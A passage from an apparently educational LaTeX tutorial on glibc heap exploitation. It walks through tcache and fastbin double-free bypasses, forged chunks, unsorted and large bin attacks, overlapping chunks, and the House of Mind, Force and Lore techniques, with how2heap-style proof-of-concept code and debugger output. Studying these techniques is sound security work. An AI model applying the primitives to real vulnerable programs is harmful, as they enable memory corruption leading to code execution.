	ptrs[i] = malloc(8);
}
for (int i=0; i<7; i++) {
	free(ptrs[i]);
}
\end{lstlisting}

\tch{} can keep up to 7 chunks. A simple solution to add free chunks to \fb{} instead of \tch{} is to fill the \tch{}, in the following, create new chunks from the top chunk instead of return freed \tch{} chunks. The above code allocated 7 chunks of 8 bytes then free all of them. In the new version of \libc{}, all of these 7 freed chunks add to \tch{}. From this point, if we free other chunks, they add to \fb{} because \tch{} is full. Now we pull back to the original approach and allocate 3 new chunks. If we use malloc() to allocate new chunks, the heap manager returns chunks from \tch{}, so, \tch{} becomes free again and we can’t implement the attack. In such a situation calloc can be used. Calloc does not use \tch{} and \fb{} are free so calloc gets memory from the top chunk. 

\begin{lstlisting}[language=c,frame=tlrb]
int *a = calloc(1, 8);
int *b = calloc(1, 8);
int *c = calloc(1, 8);
\end{lstlisting}

The result of the above code is allocated 3 new chunks of memory from the top chunk while \tch{} is still full of freed chunks. In another word, We force the heap manager to allocate memory from the top chunk instead of use freed chunks. The above approach use by other attacks to bypass the \tch{} policy too. The following steps are like the original approach, but calloc :

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
free(a);
a = calloc(1, 8);
b = calloc(1, 8);
c = calloc(1, 8);
\end{lstlisting}

In the previous example, we used small chunk allocation. What is happen if we request a larger chunk? considering below example on \libc{-2.23} :

\begin{lstlisting}[language=c,frame=tlrb]
void* p1 = malloc(0x40);
void* p2 = malloc(0x40);
free(p1);
void* p3 = malloc(0x400);
free(p1);
\end{lstlisting}

The thirds malloc have a big memory allocation, this malloc triggers another method call malloc\_consolidate() automatically. Malloc In this situation consolidate chunks in the fast bin before continuing, then, put the resulting merged chunks on the \ub{}.
The result of such behavior is we have another solution to bypass the fast bin double-free security check. It is possible to use malloc with a big size instead of free another chunk in the middle of two free. The third malloc moves chunk from fast bin to unsorted, as the result, when the second free request arrives there is no chunk inside the \fb{}. we can implement a double-free attack. In the final layout, we have P1 on both \fb{} and \ub{}. Move \fb{} chunks to \ub{} by a big size memory allocation is a simple approach which uses by other attack methods too.

\section{Forged Chunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so, we can implement an attack on the heap data structure by taking control of the pointer . Below code shows how we can return our forged chunk instead of a real heap chunk: 

\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
size_t prev_size;
size_t size;
struct forged_chunk *fd;
struct forged_chunk *bck;
char buf[10];    // padding
};
a = malloc(10);    // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;  
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);     // Will return 0x219c010
victim = malloc(10);   // Points to 0x7ffc6de966a0
\end{lstlisting}

In the first step, we allocate a memory ‘a’ with 10-Byte size, also, Create our fake chunk with size 0x20. Chunk size is important It must fall in \fb{} chunks size because \fb{} has a security check on chunk size while removing it from the list.
Now by call free(a), the real chunk is put back in the \fb{}. As we tell, we free up space but the pointer still points to chunk memory location. By accessing the pointer, we make the forward pointer of freed chunk ‘a’ to point to the forged chunk. The current layout of the heap is like below now : 

\begin{lstlisting}[language=c,frame=tlrb]
head -> a -> forged chunk -> undefined (forward of the forged chunk be holding attacker's data)
\end{lstlisting}

In the following by first allocated ‘a’ again, the heap manager returns the 'a' from the fast bin, following that, our forged chunk be at the head, so, next allocation return it instead of a real chunk

\begin{lstlisting}[language=c,frame=tlrb]
head -> forged chunk -> undefined
head -> undefined [ forged chunk is returned to the victim ]
\end{lstlisting}

Take into consideration, another allocation on \fb{} could raise Segmentation faults.
Now let’s use double-free vulnerabilities in \libc{-2.23}, The below code is just an extended version of the Double Free attack which we examined. The extended version tricks malloc() to return a controller memory location on the stack instead of a real chunk of the heap. 

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long long stack_var;
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
free(a);
free(b);
free(a);
unsigned long long *d = malloc(8);
malloc(8);
stack_var = 0x20;
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
malloc(8)
malloc(8)
\end{lstlisting}

As you can see in the first part we allocate 3 chunks and free one of them twice to bypass the \fb{} security check as we mentioned before, as the result, we have twice ‘a’ in the \fb{} list and attack by modifying data at ‘a’. On the following we have two mallocs, the first one keep access to ‘a’ inside ‘d’ pointer, the second one simply remove the ‘b’ from top of the \fb{}, now we have one pointer to ‘a’ inside the program as ‘d’ , also, another ‘a’ at top of the heap, remember any change on ‘a’ inside the program could affect on ‘a’ at top of \fb{} too.

\begin{lstlisting}[language=c,frame=tlrb]
head -> a 
\end{lstlisting}

The final step is to write 0x20 on the stack and overwrite the first 8 bytes of data at ‘a’ (any change on ‘d’ affect ‘a’ at top of the \fb{}) in away point to write before 0x20 on the stack. In this way, we trick the heap in a way that thinks there is an available free chunk.
 Now, all we have to do is remove ‘a’ from the top of the \fb{} with a call to malloc(), then, final malloc returns a controller address on memory to the program, in this case, stack.

\section{\ub{} Attack}

In previous sections we see how to implement an attack on \fb{}, now, we want to demonstrate an attack on the \ub{}. As the name suggests this attack abuse \ub{} to conduct an attack. The mechanism of this attack is to take control of backward pointer chunks in the \ub{}. The goal of this attack is to modify a value, as the result, this attack can be used to implement other attacks too.

Let’s start with a sample and consider the following code. This code tries to write a big value in the stack:

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long stack_var=0;
unsigned long *p=malloc(400);
malloc(500);
free(p);
//------------VULNERABILITY-----------
p[1]=(unsigned long)(&stack_var-2);
//------------------------------------
malloc(400);
\end{lstlisting}
 At the first line, we define our target ‘stack\_var’ where we want to write the big value. On the second and third lines, we allocate two memory chunks from the heap. The second allocation needs to keep a distance from the top of the heap, otherwise, when we free ‘p’ the heap manager merges it with the top of the heap automatically. At least, we have to write our target address in the backward pointer of ‘p’. Now, the heap manager does the rest. As we mentioned before \ub{} uses a double linked list, so, when the heap manager tries to remove a chunk from this double-link list, the backward pointer must be rewritten to remove a chunk from the list, In malloc, we have such a code : 
 
\begin{lstlisting}[language=c,frame=tlrb]
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
\end{lstlisting}

The last malloc tries to allocate 400-Byte of memory, so the heap manager checks the \ub{} to find a suitable chunk of memory. Also, move the \ub{} chunk to corresponding bins. If you check the malloc source code you can see malloc check every item to achieve this goal. At first, we have such a code :
\begin{lstlisting}[language=c,frame=tlrb]

while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av)){
bck = victim->bk;
\end{lstlisting}
‘Av’ is arena and unsorted\_chunks (av) is the head of the \ub{} and Victim is our current item. You can see, malloc checks items from the head of the \ub{} and removes them one by one. Put it all to gather :

\begin{lstlisting}[language=c,frame=tlrb]
victim = unsorted_chunks (av) -> bk = p
bck = victim->bk = p->bk = target addr-16
unsorted_chunks(av)->bk = bck = target addr-16
bck->fd = *(target addr -16+16) = unsorted_chunks(av);
\end{lstlisting}

Now it is clear that if we control the backward pointer, then, we can write data to any address, however, we do not have control over data. In this case, the linked list header was written on a stack variable. In the recent versions of \libc{} the following check was added to prevent this attack:

\begin{lstlisting}[language=c,frame=tlrb]
if (\_\_glibc_unlikely (bck->fd != victim))
	malloc\_printerr ('malloc(): corrupted unsorted chunks 3');
\end{lstlisting}

\section{\lb{} Attack}

As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.

\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}

The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk. 

\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}

In the second step, we free the biggest chunk, however, the freed chunk is not in the \lb{} yet. As we discussed, the freed chunk was added to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).

\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}

In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted\_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large\_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}
 
The next step is to put the target address - 0x20 in the p1->bk\_nextsize . As we mentioned before, Just \lb{} chunk chunks use this pointer, they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
 
The last step is to allocate a bigger chunk, so, p2 moves to a larger chunk. When p2 move to large chunk, the heap manager write the address of p2 inside p1->bk\_nextsize->fd\_nextsize as the code of \libc{} show:

\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
 \end{lstlisting}
 
This attack works on \libc{} below 3.0.

\section{Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory :

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
 \end{lstlisting}

Now lets free() the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation :

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
 \end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
Chunk(addr=0x555555559110, size=0x100, flags=PREV\_INUSE)
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV\_INUSE) top chunk

 \end{lstlisting}
In the next step, as we did before, We have to change the chunk size by overflow :

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, the heap manager return p2 when receives an allocation request, as the result, p2 has overlap with previous chunks :

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p p4
$11 = (intptr_t *) 0x555555559110
gef: p p2
$12 = (intptr_t *) 0x555555559110
gef: p p1
$13 = (intptr_t *) 0x555555559010
gef: p p3
$14 = (intptr_t *) 0x555555559210
 \end{lstlisting}
 
As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application. Now the p3 and p4 have overlap, so, write data on one of them overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system uses mmap in this scenario. Take consider the following code : 

\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
 \end{lstlisting}
 
heap layout after allocation 

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x20, flags=PREV_INUSE)
 [0x0000555555559010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................]
Chunk(addr=0x555555559030, size=0x410, flags=PREV_INUSE)
 [0x0000555555559030  0a 43 75 72 72 65 6e 74 20 53 79 73 74 65 6d 20 .Current System ]
Chunk(addr=0x555555559440, size=0x20bd0, flags=PREV_INUSE) top chunk
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p mmap_chunk_2
$1 = (long long *) 0x7ffff7935010
gef: p mmap_chunk_3
$2 = (long long *) 0x7ffff7834010
gef: p top_ptr
$3 = (long long *) 0x7ffff7ef2010
 \end{lstlisting}

Like the previous one, we change the size of the last chunk. The new chunk size is the sum of the size of chunk\_3 and chunk\_2, as the result, the unmmap freezes both areas.

\begin{lstlisting}[language=c,frame=tlrb]
free(mmap_chunk_3)
 \end{lstlisting}
 
In this stage if we allocate a new big chunk, this new big chunk has overlap with chunk\_2 which just has been unmmap without call unmmap directly, as the result, we can write on the chunk2 area with the help of our new chunk.

\section{The Houses}

It's time to talk about the House of XXX families' attack. In 2004 the authors of \libc{} published a series of patches over malloc to prevent previous attacks on heap manager. In late 2004 a person published a paper ‘The Malloc Maleficarum’ over the internet. ‘It is for this reason, a small suggestion of impossibility, that I present the Malloc Maleficarum’ As he/she said. The name came from a 14-century book written by a Catholic clergyman on witchcraft, cool :)

\subsection{The House of Mind}
The goal of this attack is to overwrite a memory location by abusing the free() function. Take a look at free() function : 
\begin{lstlisting}[language=c,frame=tlrb]
public free(Void_t* mem){
  mstate ar_ptr;
  mchunkptr p;    
   /* ... */ 
  p = mem2chunk(mem);
   /* ... */ 
  ar_ptr = arena_for_chunk(p);
   /* ... */ 
  _int_free(ar_ptr, mem);
}
 \end{lstlisting}
As we mentioned, when the user requests a memory allocation \libc{} returns a pointer to the data section on the allocated chunk, however, to free chunk \libc{} needs a pointer to the beginning of the chunk. mem2chunk() responsible to convert mem pointer to chunk pointer by subtracting address from metadata size. Then this chunk passes to arena\_for\_chunk() macro. Take a look at the code : 

\begin{lstlisting}[language=c,frame=tlrb]
#define HEAP_MAX_SIZE (1024*1024)
#define heap_for_ptr(ptr) \
  ((heap_info *)((unsigned long)(ptr) & ~(HEAP_MAX_SIZE-1)))
#define chunk_non_main_arena(p) ((p)->size & NON_MAIN_ARENA)
#define arena_for_chunk(ptr) \
(chunk_non_main_arena(ptr)?heap_for_ptr(ptr)->ar_ptr : &main_arena)
 \end{lstlisting}
 
When a non\_main arena heap creates, the first thing that goes into this heap is heap\_stricture, this structure contains a field call ar\_ptr, In the above code ar\_ptr stands for arena for this heap, Also, as you remember there is a bit in the size field which stands for non\_main\_arena. Since the attacker has control of the size field, can control chunk threats as the main arena or non\_main arena. We can conclude , if the non\_main\_arena is set , then chunk\_non\_main\_arena() return true ,as the result ar\_ptr in free() function is set to heap\_for\_ptr(ptr)->ar\_ptr .
This attack works by manipulating the heap in a way a fake ar\_ptr supply to \_init\_free(), as the result, an arbitrary overwrite be happen. The Attacker has to allocate enough memory until reaches non\_main\_arena where he has control over arena data. Max heap size is 1024*1024 plus 512kb of padding, so, max allocation never is more than 1MB.
We saw It possible to hijack the heap\_info and supply an arbitrary ar\_ptr value, so, what value should we use for ar\_ptr? We have two option on that :

\subsection{Large area of memory}
Use a large area of memory then \ub{} link code overwrite the target for us. There is some condition and security check, if we can bypass them all the following code of \ub{} do the real job:
\begin{lstlisting}[language=c,frame=tlrb]
bck = unsorted_chunks(av);
fwd = bck->fd;
p->bk = bck;
p->fd = fwd;
bck->fd = p;
fwd->bk = p;
 \end{lstlisting}
In the above code ‘p’ stands for the address of the attacker overflowed chunk, unsorted\_chunks(av)returns av->bin[0] which is controlled by the attacker, as the result, bk->fd overwrite ‘p’.

\subsection{Fast bin}
Consider following code of \fb{}
\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){
	if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
	|| __builtin_expect (chunksize (chunk_at_offset (p, size)) >= av->system_mem, 0)){
		errstr = "free(): invalid next size (fast)";
		goto errout;
}
set_fastchunks(av);
fb = &(av->fastbins[fastbin_index(size)]);
 /* ... */ 
p->fd = *fb;
*fb = p;
}

 \end{lstlisting}
The ideal way in this approach is to take control of fb , so, in the following line, fb overwrites on target. This scenario needs to bypass conditions too. This Attack still works on the current version on \libc{}, so, let's see a real sample from how2heap on the house of mind. Consider the following code : 
\begin{lstlisting}[language=c,frame=tlrb]
int HEAP_MAX_SIZE = 0x4000000;
int MAX_SIZE = (128*1024) - 0x100;
\end{lstlisting}

The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap. 
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000); 
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial malloc\_state of the arena, also, system\_mem field. This field is used to validate the size of the chunk, so it must be larger than our chunk size. 
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF; 
fake_arena[0x88a] = 0xFF; 
\end{lstlisting}

Now we need to find the location of fake arena 
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}

The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */ 
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach , so, we need a chunk in range of the \fb{} chunk , also, a pointer to chunk : 

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like fastbin\_dup all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}	
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}

The next step is setting up ar\_ptr of heap structure in the fake heap. This field is the first one in the structure and is located at offset 0x00. 

\begin{lstlisting}[language=c,frame=tlrb]
fake_heap_info[0] = (uint64_t) fake_arena
\end{lstlisting}

Now we have to set non\_main\_arena bit in the size field of our victim chunk :

\begin{lstlisting}[language=c,frame=tlrb]
chunk_ptr[1] = 0x60 | 0x4;
\end{lstlisting}

Everything is set up now, all we need is call free function for the victim chunk :

\begin{lstlisting}[language=c,frame=tlrb]
free(fastbin_chunk); 
\end{lstlisting}

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb1}}
  \caption{the address of our fake arena overwritten on target location}
\end{figure}

\subsection{The house of Force}
The house of Force is the first attack of House of X which we want to discuss. We talk about the top chunk and the way \libc{} manages it. As we mentioned, when there is no suitable free chunk for ongoing allocation requests, Glib uses the top chunk as free space and creates a chunk from scratch. So what happens if we have control over top chunk size? The goal of this attack is to use this vulnerability to write a value in an arbitrary address. Consider the following code from \libc{-2.23} :
\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */ 
use_top:
	victim = av->top;
	size = chunksize (victim);
	if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)){
	     remainder_size = size - nb;
	     remainder = chunk_at_offset (victim, nb);
	     av->top = remainder;
	     set_head (victim, nb | PREV_INUSE |
	          (av != &main_arena ? NON_MAIN_ARENA : 0));
	     set_head (remainder, remainder_size | PREV_INUSE);
	     check_malloced_chunk (av, victim, nb);
	     void *p = chunk2mem (victim);
	     alloc_perturb (p, bytes);
	     return p;
}
\end{lstlisting}
As you can see in the first step \libc{} compares the requested chunk size and top chunk size, as the result, the first step is to set a large value in top chunk size to bypass this step, cheating \libc{} to use this space. The following code Is hose\_of\_force sample from how2heap :

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *p1 = malloc(256);
int real_size = malloc_usable_size(p1);
\end{lstlisting}

The first line allocates a big chunk of data from heap memory, so, our memory is divided into two\-part: The allocated part, The top chunk. real\_size is the size of the data section in the chunk. As we said we need to overwrite the top chunk size, to do that, we need a pointer to the top chunk first. The top chunk located at the following address: 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size - sizeof(long));
\end{lstlisting}

Now, we have a pointer to the top chunk, all we have to do overwrite the size field :

\begin{lstlisting}[language=c,frame=tlrb]
*(intptr_t *)((char *)ptr_top + sizeof(long)) = -1
\end{lstlisting}

If you check the \libc{} above code, you can see the \libc{} convert the size to (unsigned long), so, \-1 is the largest number. Now we put a big number on size, so, malloc doesn’t call mmap to get more memory from os, instead, it uses the top chunk. All we have to do now is allocate a chunk from the top chunk to right before our target, then, the second chunk is be our target :

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;
void *new_ptr = malloc(evil_size);
\end{lstlisting}

The above code, calculate the distance between the start of the top chunk and the start of the target (bss\_var), then allocate memory space to rich the target, however, this chunk does not point to target, this chunk point to start of the top chunk, so, we need to allocate the second chunk : 

\begin{lstlisting}[language=c,frame=tlrb]
void* ctr_chunk = malloc(100);
\end{lstlisting}

This chunk points to our target, so, with one simple strum we can overwrite the value :  

\begin{lstlisting}[language=c,frame=tlrb]
strcpy(ctr_chunk, "YEAH!!!");
\end{lstlisting}

Unfortunate this attack does not work on current \libc{} version because of below patch:
\begin{lstlisting}[language=c,frame=tlrb]
if (__glibc_unlikely (size > av->system_mem))
    malloc_printerr ("malloc(): corrupted top size");
\end{lstlisting}

\subsection{The House of Lore}

This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If you check the malloc source code, you can see there is a check for small chunk request, so , if the requested chunk fits inside the \sbs{} range, the heap manager use it 

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code.

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. in other words, we can return a chunk to any address. now we explain it in a real sample :

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the real address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the bck pointer of buffer\_1 to the victim, the fwd pointer of buffer\_1 to buffer\_2, also, the bck pointer of buffer\_2 to buffer\_1. In this way, we can bypass the \sbs{} security check. 
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}
 
To prevent merging the top chunk with a small one during free() we allocate a big chunk on top of the heap. After that by freeing the victim, it moves to the \ub{}. In the following step, we allocate another chunk big enough, so, heap manager can't use the chunk inside an \ub{} or \sbs{}.
\begin{lstlisting}[language=c,frame=tlrb]
victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack
\end{lstlisting}
  
\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb2}}
  \caption{Heap layout}
\end{figure}
